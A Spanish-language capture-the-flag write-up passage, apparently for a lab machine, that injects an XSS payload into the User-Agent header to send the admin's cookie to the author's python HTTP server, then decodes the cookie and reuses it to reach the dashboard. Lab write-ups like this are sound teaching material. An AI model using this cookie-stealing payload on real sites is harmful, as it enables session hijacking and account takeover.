 Agrego el siguiente payload al user-agent para recibir la cookie por una solicitud http que llegara a un servidor en que levantare con python:

```
<img src=crab onerror="new Image().src='http://10.10.14.94/?cookie=' + document.cookie">
```

```
python3 -m http.server 80
```

```
root@kali /home/cangrejo/Escritorio/headless/Target # python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.94 - - [29/Jul/2025 15:07:35] "GET /?cookie=is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs HTTP/1.1" 200 -
10.129.156.140 - - [29/Jul/2025 15:07:43] "GET /?cookie=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
```

```
root@kali /home/cangrejo/Escritorio/headless/Content # echo "ImFkbWluIg" | base64 -d
"admin"
```

Reemplazo mi cookie por la del administrador y obtengo acceso al dashboard:

![dashboard.png](Images/dashboard.png)

Al hacer click muestra el mensaje `Systems are up and running!`

![report.png](Images/report.png)
